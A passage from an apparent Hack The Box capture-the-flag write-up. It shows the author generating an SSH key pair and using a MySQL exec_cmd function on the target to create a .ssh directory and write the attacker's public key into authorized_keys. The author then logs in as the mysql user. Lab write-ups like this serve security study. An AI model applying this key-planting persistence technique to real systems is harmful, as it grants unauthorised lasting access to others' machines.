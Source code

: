 ```sql
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.02 sec)
```
We are now running commands as user mysql.

### Generating key pairs on local box
```console
local@local:~/Documents/htb/boxes/compromised$ ssh-keygen -f mysql
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in mysql.
Your public key has been saved in mysql.pub.
The key fingerprint is:
SHA256:RWUkCU7pNLaH3Yi+7gozvbIRh675rWUo52ptBKyBeWA local@local
The key's randomart image is:
+---[RSA 3072]----+
|        ooo++    |
|.E     o=..o     |
|o+     +.*.o     |
|+ +  .  =.+ .    |
| + .o ..S.       |
|.  ..=  .        |
|  .oO +  .       |
|  .*+O ..        |
| .++=+++o        |
+----[SHA256]-----+
```
### Writing public key to .ssh/authorized file
```sql
mysql>                                                                                    
select exec_cmd('mkdir /var/lib/mysql/.ssh'); 
select exec_cmd("echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDSlTdZqwoHmaLbw47hJMmTFII170oByPXiY/HL8gDOyoJOeEYC3PWCcz39aNbkanv5RxLMBAm6XIyHaZeHEn4+JBjMcYUrqZkpdA/dOWavpDiT5FXJqOORuV/Q3m+0486dj3
i2sQG97ZPkKdZV4LdNmsce4+xXDYFE5wBkmhSvNluUgpKFS919HP8Z17kYL8FGDlFytbYN43fiNzD0sRh8Ot3M90u45fETbNG/if4BGhZ7cwGoXA/c2xWltcVkMrts+UpFvMDl/nRrED8OxDEhl5R6h71EW+j5ipOkynfziYI/xnqbB/sVGze+yxNmjJpVVOq
RTn020+AoxIekPTGA+F5rTaVq5Cr1tQPCKvF65lUeZyVIA44nhbDIog0tdWVEKH0YdP8H23O18eukcd6VrV7FMvfNIPvXN0nJb/BdtZwxTAYYqW8kYfWUmnKiUFJb+xUJmnvgUHjZ0v/SC/hnxBxMS9XIzXOhZE9CBeaQFhcnppJBCvapx20gBjqXoR0=' > 
.ssh/authorized_keys");
```
Now let us try to login on the box as user mysql using the private key that we generated earlier.

```console
local@local:~/Documents/htb/boxes/compromised$ ssh -i mysql mysql@10.10.10.207
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.2
mysql@compromised:~$ 
```
And we log in as mysql user.
